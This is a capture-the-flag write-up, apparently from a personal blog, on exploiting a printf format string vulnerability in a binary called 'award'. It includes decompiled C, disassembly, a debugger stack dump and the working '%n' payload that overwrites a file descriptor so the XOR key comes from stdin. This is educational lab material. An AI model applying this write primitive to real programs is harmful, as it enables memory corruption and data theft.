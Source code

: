 +++
author = "Lenart"
title = "award - issue in printf formatters"
date = "2024-04-27"
description = "Everyone gets award."
tags = [
"ctf",
"pwn",
"binary exploitation",
]
+++

# Award

Everyone gets an award.

This challenge got me really crazy, despite it being super easy, but I got
the wrong direction because of my decompiler misdirecting (nice work Ghidra).
I later checked it in IDA and directly got the idea, but it still took me some
time to figure out how to exploit it practically.

So we are given an ELF binary file, protected with all the modern protections.
The binary is also stripped, so no debug symbols.

Here is a pseudocode of what it would look like:

```c
void xor(char *flag_buffer, char *random, char *ret_val) {
    int i;
    
    for (i = 0; i < 0x20; i = i + 1) {
      ret_val[i] = flag_buffer[i] ^ random[i];
    }
    return;
}

int main() {
    int fd;
    int fd0;
    int *local_a0;
    // other variables would be here
    // ....

    puts("Who the reward is for ?");
    fgets(user_input, 32, stdin);
    fd = open("flag.txt", 0);
    if (fd == -1) {
      perror("Error opening flag");
      exit(1);
    }
    for (i = 0; i < 32; i = i + 1) {
      *(undefined *)((long)&random_buffer + (long)i) = 0;
    }
    fd0 = open("/dev/urandom", 0);
    local_a0 = &fd0;
    printf(user_input);
    sVar1 = read(fd0, &random_buffer, 32);
    local_a4 = (undefined4)sVar1;
    read(fd, &flag_buffer, 32);
    xor((char *)&flag_buffer, (char *)&random_buffer, (char *)&ret_val);
    printf("Here is your secret award: ");
    for (local_ac = 0; local_ac < 0x20; local_ac = local_ac + 1) {
      putchar((uint)*(byte *)((long)&ret_val + (long)local_ac));
    }
    putchar(10);
}
```

So, the code basically reads some random bytes from **/dev/urandom**, which is
practically impossible to predict. It then reads the flag and XORs it with the
random bytes.

Interestingly, there is a user input buffer which we control. It is
then printed directly without any formatter. We can, without any hesitation, assume
it is a format string vulnerability.

And note that we have an `int *` which points to the `fd0`, this would come handy later.

Although it is clearly a format string vulnerability, it's not as easy as it sounds.
I spent too much time trying to dereference what is on the stack within a really wide range
because I was too n00b and didn't realize that when printing the buffer there is not
anything valuable on the stack. Actually, the flag and even random bytes are read after the printf.
That's when I realized the only valuable things we have on the stack are the file descriptors,
so we may control them and exploit to our gains.
My thought then was; let's set the second file descriptor, the one where we read to the random buffer, to 0.
This way we can control the key used to XOR the flag and bingo we got the flag.

So, the strategy is, set the file descriptor of the first write, which is referred to as `fd0` in the code,
to 0. We then feed the program with our controlled key, then we decrypt the flag using it.
You may know the XOR property:

```python
if a ^ b = c then c ^ b = a
```

> Actually, we don't even need to decrypt it. If we send nothing the flag would not be encrypted.

The problem with `printf` is, if we don't specify the formatters and directly give the user input,
a malicious user can use their own formatters to confuse and exploit it. For example:
`printf(user_input)` a user can give `%s` as input, and printf thinks there is some string to
dereference and print out. By convention, it would look at registers until the 5th argument and then
go to the stack. So using `%s %s %s %s %s %s` would print out what's in the first five registers
and then go to the first value on the stack.

That is great, but unfortunately for us, there is nothing interesting to read in the registers,
neither on the stack. Fortunately for us, there is a formatter that allows us to write
arbitrary bytes to a location on the stack.

```bahs
man 3 printf
n      The number of characters written so far is stored into the integer pointed
       to by the corresponding argument.
```

But it also says:

```
That argument shall be an int *, or  variant  whose size  matches the (optionally) supplied integer length modifier.
```

Not a great news, we can't write to fd, but recall the `int *` that points to the fd, we can write into it.

So if we spot the location where the `local_a0` or whatever doesn't matter is stored, we can eventually `write 0` to it,
using `%42$x` tells `printf` to print out what is at the location `42` instead of the first register
or the first value on the stack, so we need to find out where the `local_a0` is stored on the stack.

So, running the program using GDB and starting as it is stripped, we can't just set a breakpoint at main.
We can spot where the actual main starts.

Here is what the disassembled code looks like:

```asm
   0x555555555307:	call   0x555555555040 <puts@plt>
   0x55555555530c:	mov    rdx,QWORD PTR [rip+0x2d5d]        # 0x555555558070 <stdin>
   0x555555555313:	lea    rax,[rbp-0x30]
   0x555555555317:	mov    esi,0x20
   0x55555555531c:	mov    rdi,rax
   0x55555555531f:	call   0x555555555080 <fgets@plt>
   0x555555555324:	mov    esi,0x0
   0x555555555329:	lea    rax,[rip+0xcec]        # 0x55555555601c
   0x555555555330:	mov    rdi,rax
   0x555555555333:	mov    eax,0x0
   0x555555555338:	call   0x5555555550a0 <open@plt>
   0x55555555533d:	mov    DWORD PTR [rbp-0xa0],eax
   0x555555555343:	cmp    DWORD PTR [rbp-0xa0],0xffffffff
   0x55555555534a:	jne    0x555555555365
   0x55555555534c:	lea    rax,[rip+0xcd2]        # 0x555555556025
   0x555555555353:	mov    rdi,rax
   0x555555555356:	call   0x5555555550b0 <perror@plt>
   0x55555555535b:	mov    edi,0x1
   0x555555555360:	call   0x5555555550c0 <exit@plt>
   0x555555555365:	mov    DWORD PTR [rbp-0xa8],0x0
   0x55555555536f:	jmp    0x555555555388
   0x555555555371:	mov    eax,DWORD PTR [rbp-0xa8]
   0x555555555377:	cdqe
   0x555555555379:	mov    BYTE PTR [rbp+rax*1-0x90],0x0
   0x555555555381:	add    DWORD PTR [rbp-0xa8],0x1
   0x555555555388:	cmp    DWORD PTR [rbp-0xa8],0x1f
   0x55555555538f:	jle    0x555555555371
   0x555555555391:	mov    esi,0x0
   0x555555555396:	lea    rax,[rip+0xc9b]        # 0x555555556038
   0x55555555539d:	mov    rdi,rax
   0x5555555553a0:	mov    eax,0x0
   0x5555555553a5:	call   0x5555555550a0 <open@plt>
   0x5555555553aa:	mov    DWORD PTR [rbp-0xac],eax
   0x5555555553b0:	lea    rax,[rbp-0xac]
   0x5555555553b7:	mov    QWORD PTR [rbp-0x98],rax
   0x5555555553be:	lea    rax,[rbp-0x30]
   0x5555555553c2:	mov    rdi,rax
   0x5555555553c5:	mov    eax,0x0
   0x5555555553ca:	call   0x555555555060 <printf@plt>
```

The `fgets` is where we put our input (actually it reads up to 32 bytes), and `printf` is where we are interested in,
so we put a breakpoint right before hitting it.

```bash
pwndbg> b *0x5555555553ca
Breakpoint 2 at 0x5555555553ca
pwndbg> c
Continuing.
Who the reward is for ?
AAAAAAAA
```

looking at the stack layout:

```bash
pwndbg> x/20gx $rsp
0x7fffffffe4b0:	0x0000000400008000	0x0000000000000020
0x7fffffffe4c0:	0x0000000000000003	0x00007fffffffe4b4
0x7fffffffe4d0:	0x0000000000000000	0x0000000000000000
0x7fffffffe4e0:	0x0000000000000000	0x0000000000000000
0x7fffffffe4f0:	0x0000000000000000	0x0000000000000000
0x7fffffffe500:	0x0000000000000000	0x0000000000000000
0x7fffffffe510:	0x0000000000000000	0x000000000000000
```

It took me a little time to figure out where `local_a0` was (I was originally looking for fd0). 
I could already see that `0x7fffffffe4c0` at the first 8 bytes points to `0x0000000000000003`
which is the file descriptor of the flag file. 
The next is interesting, it seems like an address which gives a hint of the local_a0 pointer.
There is a similar address ```0x7fffffffe4b0:	0x0000000400008000``` the address is ```0x00007fffffffe4b4```
So it clearly points to ```0x00000004```.

```bash
pwndbg> x 0x00007fffffffe4b4
0x7fffffffe4b4:	0x0000002000000004
```

So we know the first 5 parameters are passed by registers to printf, so the first value
on the stack is the 6th for printf. Thus, writing `%6$x` would print out `0x0000000400008000`.
What we are interested in is the 9th value, `0x00007fffffffe4b4`.

```bash
~/D/c/i/p/award ❯❯❯ ./award
Who the reward is for ?
%9$n

aaaaaaaaaaaaaaaaaaaaaaaa
Here is your secret award: kaaaaaaa
~/D/c/i/p/award ❯❯❯
```

As you see, we managed to write from stdin, and that is used to XOR the secret. From now
on, it takes a simple exploit script to get the flag :).


